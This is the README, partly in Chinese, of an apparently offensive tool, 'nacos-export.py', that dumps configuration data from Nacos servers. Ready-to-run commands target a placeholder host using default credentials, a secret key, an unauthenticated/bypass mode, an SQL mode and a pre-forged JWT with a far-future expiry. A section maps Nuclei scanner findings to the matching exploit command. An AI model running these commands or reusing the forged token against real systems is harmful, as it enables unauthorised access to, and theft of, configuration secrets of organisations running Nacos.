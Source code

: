 # NACOS EXPORT

- ✅ 通过nacos账号密码导出配置
- ✅ 通过secretkey导出配置
- ✅ 通过token导出配置
- ✅ 通过unauth/bypass导出配置
- ✅ 导出配置数量统计
- ✅ 通过sql导出配置

## Use

考虑到NACOS部署方式不同，在设置目标路径时，指向 `/v1`的上一级目录.

> 若要将将结果保存至文件，请通过重定向输出方式

```text
$ python3 nacos-export.py

 ______________
< Nacos Export >         @Author: Arm!tage
 --------------          @Version: v1.2.1
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||

Usage:
    python3 nacos-export.py <URL> <USERNAME> <PASSWORD>
    python3 nacos-export.py <URL> secretkey <SECRETKEY>
    python3 nacos-export.py <URL> <TOKEN>
    python3 nacos-export.py <URL> bypass|unauth
    python3 nacos-export.py <URL> sql

Example:
    python3 nacos-export.py http://TARGET:8848/nacos nacos nacos
    python3 nacos-export.py http://TARGET:8848/nacos secretkey SecretKey012345678901234567890123456789012345678901234567890123456789
    python3 nacos-export.py http://TARGET:8848/nacos eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6OTk5OTk5OTk5OTl9.-isk56R8NfioHVYmpj4oz92nUteNBCN3HRd0-Hfk76g
    python3 nacos-export.py http://TARGET:8848/nacos unauth
    python3 nacos-export.py http://TARGET:8848/nacos sql
```

## Nuclei Template

- **nacos-default-login**
  - `python3 nacos-export.py http://TARGET:8848/nacos nacos nacos`
- **unauthenticated-nacos-access**
  - `python3 nacos-export.py http://TARGET:8848/nacos unauth`
  - `python3 nacos-export.py http://TARGET:8848/nacos bypass`
- **nacos-auth-bypass**
  - `python3 nacos-export.py http://TARGET:8848/nacos unauth`
  - `python3 nacos-export.py http://TARGET:8848/nacos bypass`
- **nacos-authentication-bypass:extracted-credentials**
  - `python3 nacos-export.py http://TARGET:8848/nacos eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6OTk5OTk5OTk5OTl9.-isk56R8NfioHVYmpj4oz92nUteNBCN3HRd0-Hfk76g`
